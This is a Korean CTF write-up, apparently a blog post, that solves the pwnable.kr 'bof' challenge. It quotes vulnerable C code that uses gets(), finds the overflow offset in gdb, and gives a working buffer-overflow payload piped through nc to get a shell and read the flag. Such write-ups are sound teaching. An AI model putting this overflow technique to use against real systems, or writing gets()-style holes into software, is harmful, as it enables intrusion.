 ```yaml
---
layout: post
title: pwnable bof
category: [pwnable, security]
tags: [pwnable, Toddler's Bottle]
fullview: true
comments: true
use_math: true
author: fault2000
---
```


이번 문제는 nc를 통해 실행되는 프로세스에만 접근이 가능하다. 그래서 실행되는 파일을 볼 수 있도록 다운로드 링크를 제공하니, bof와 bof.c를 받아놓고 먼저 머리를 박아보자.  

![image](https://user-images.githubusercontent.com/73513005/185579276-0847c6cc-1f04-4408-b242-deefa01b0644.png)

실행하면 일단 우리의 입력을 기다린다. 아무거나 입력을 해주었더니 overflow me: 가 뜨고 입력할 틈도 없이 Nah...라며 틀렸음을 알려준다. 이걸로는 단서가 부족하다. c파일을 보러가자.  

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

main과 func 함수로 구성되어 있으며, main에서는 단순하게 func에 0xdeadbeef를 인자로 주기만 하고 별다른 행동 없이 종료되며, func에서는 overflowme라는 char형 32바이트 크기의 변수를 선언하고 여기에 gets를 통해 입력을 받는다. 그 뒤 받았던 0xdeadbeef를 담은 key와 0xcafebabe를 비교하여 맞으면 flag를, 틀리면 오류를 출력한다.  
여기서 이미 문제 이름부터 힌트를 주고 있는데, 버퍼 오버플로우를 통해 푸는 문제이다. 선언된 key뒤 overflowme가 선언되는데, 이를 gets로 받으므로 오버플로우에 대한 대비가 하나도 없다. 즉 overflowme와 key간에 거리만 알아내어 정확한 자리에 deadbeef를 cafebabe로 덮어써주면 된다는 이야기다.  

***

![image](https://user-images.githubusercontent.com/73513005/185582643-e95361ea-0417-4881-98c2-d17249748e21.png)

위 그림은 gdb에서 본 func 함수이다. 여기서 우리는 빨간 밑줄이 쳐진 두 부분에 집중하자. 첫 번째 줄위에는 puts, 아래에는 gets 명령이 있는데, 이는 함수 본문에서 printf와 gets 명령 사이임을 짐작할 수 있고, 즉 이 값이 overflowme의 주소임을 유추할 수 있다. 다음 빨간 줄 아래에는 jne, 비교 명령이 있는데, 함수에서 비교하는 과정은 오직 if 문밖에 없기도 하고, 비교대상이 0xcafebabe인 것으로 보아 0x8(%ebp)가 key 값이 저장되어 있는 곳임을 유추할 수 있다.  
즉 -0x2c(%ebp)와 0x8(%ebp)의 거리 차이를 구하고(0x2c+0x8=0x34=52) 이를 채워넣은 다음 원하는 값을 넣으면 될 것임을 짐작할 수 있다.  
이제 직접해보자. 먼저 아무 값이나 52개 넣어주고 그 뒤 0xcafebabe를 넣어주면 된다. 구성은 다음과 같다.  

> python -c "print ('a'*52 + '\xbe\xba\xfe\xca')"

이제 이를 명령어와 조합하여 답을 만들자. 여기서 유의할 점은 그냥 이것만 써놓으면 입력을 할 수 없는 상태에서 아무런 반응이 없다. 반드시 print 뒤에 ;cat을 써주어 우리의 입력을 받는 상태로 만들어주어야함을 인지하자.  

> (python -c "print ('a'*52 + '\xbe\xba\xfe\xca')";cat) | nc pwnable.kr 9000

그 뒤 cat flag를 통해 정답을 볼 수 있다.

![image](https://user-images.githubusercontent.com/73513005/185605596-42fac84a-8627-4bff-9e50-d20aab8ebd2a.png)